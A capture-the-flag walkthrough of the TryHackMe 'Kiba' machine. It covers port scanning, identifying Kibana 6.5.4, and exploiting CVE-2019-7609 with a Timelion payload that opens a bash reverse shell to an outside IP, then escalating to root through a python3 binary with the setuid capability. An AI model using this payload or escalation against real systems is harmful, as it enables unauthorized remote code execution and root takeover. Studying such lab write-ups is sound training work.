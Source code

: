 # Nmap
We start with nmap TCP 
```sh
┌──(kali㉿kali)-[~/THM/KIBA/recon/nmap]
└─$ nmap kiba.thm -p-  --min-rate 2000 -vv -Pn -oA init

...
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack
80/tcp   open  http        syn-ack
5044/tcp open  lxi-evntsvc syn-ack
5601/tcp open  esmagent    syn-ack

```
Results:
```sh
──(kali㉿kali)-[~/THM/KIBA/recon/nmap]
└─$ nmap kiba.thm -p22,80,5044,5601  --min-rate 2000 -vv -Pn -oA openscsvs -sC -sV

...PORT     STATE SERVICE      REASON  VERSION
22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9df8d157132481b6185d048ed2384f90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdVrdscXW6Eaq1+q+MgEBuU8ngjH5elzu6EOX2UJzNKcvAgxLrV0gCtWb4dJiJ2TyCLmA5lr0+8/TCInbcNfvXbmMEjxv0H3mi4Wjc/6wLECBXmEBvPX/SUyxPQb9YusTj70qGxgyI6SCB13TKftGeHOn2YRGLkudRF5ptIWYZqRnwlmYDWvuEBotWyUpfC1fGEnk7iH6gr3XJ8pwhY8wOojWaXEPsSZux3iBO52GuHILC14OiR/rQz9jxsq4brm6Zk/RhPCt1Ct/5ytsPzmUi7Nvwz6UoR6AeSRSHxOCnNBRQc2+5tFY7JMBBtvOFtbASOleILHkmTJBuRK3jth5D
|   256 e1e67aa1a11cbe03d24e271b0d0aecb1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2fQ/bb8Gwa5L5++T3T5JC7ZvciybYTlcWE9Djbzuco0f86gp3GOzTeVaDuhOWkR6J3fwxxwDWPk6k7NacceG0=
|   256 2abae5c5fb51381745e7b154caa1a3fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJk7PJIcjNmxjQK6/M1zKyptfTrUS2l0ZsELrO3prOA0
80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc? syn-ack
5601/tcp open  esmagent?    syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:09 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:04 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 09 Aug 2023 12:18:06 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
.....
```

# Port 80
Enumerated with whatweb, nikto, dirb. Not much useful information for now
What's up with the linux capabilities?.., Maybe something to keep in mind for later.
![](80home.png)
# port 5044
Nmap gave no info about port 5044. I checked it with nc to grab the banner. Also no results:

```sh
nc -nvv 10.10.195.146 5044

(UNKNOWN) [10.10.195.146] 5044 (?) open

```

Let's continue

# Port 5601
From the nmap results we can see that there is an http 302 code. which means a redirect. When we visit:
http://kiba.thm:5601 we get redirected to http://kiba.thm:5601/app/kibana
![](kib1.png)
After googling what kibana is:

> Kibana is an free and open frontend application that sits on top of the Elastic Stack, providing search and data visualization capabilities for data indexed in Elasticsearch.

We will enumerate the application and look For some version numbers.


![](kibversion.png)

Got it! We fund the version by clivking on Management. Version: 6.5.4

# Exploit
After googling for 'kibana 6.5.4 vulnerabilites' We finnd cve-2019-7609. This vulnerabultity allows us to execute code on the machine.

Instructions for the expoloit can be found here: https://github.com/mpgn/CVE-2019-7609

```sh
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.40.46/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
![](exploit1.png)

BAM! We have a shell as user 'kiba'. We can read the user flag from kiba's home directory.

# Pivileges escalation
Linpeas showed an interesting file with capabilites:
![](capabilites.png)
Manual searching for binaries with capabilites:

```sh
getcap -r / 2>/dev/null
```

Some info about Capabilites: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities

We can exploit this misconfiguration with:


```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
![](rootflag.png)

So what happens here:
 The CAP_SETUID capability is described as: Make arbitrary manipulations of process UIDs [source](https://man7.org/linux/man-pages/man7/capabilities.7.html)
 UID is the User Identifier. A process carries the UID pf the user who started the process. The UID is used to decide teh privilege to preform operations on resources.
 The UID 0 is reserved for root users. 
 On the home/kiba/.hackmeplease/python3 binary we have setuid capabilites. which means that we can  manipulate the process UID. 
 Sounds great to set the UID to 0 on the process we start with python. 

 But first check what happens if we don't change the UID en we execute the python command with the UID of the current user kiba.
 
```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.system("/bin/bash")'
```
We can get the process id with:
```sh
ps -aux | grep python3
```
Then we can get the UID of the process with:
```sh
ps -p <PID> -o uid
```

![](uid1.png)

Here we see that the UID is 1000

Now with the UID set to 0:
```sh
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Here we see that we are runing the process as the user root and the UID is set to 0 as we expected.


![](uidroot.png)
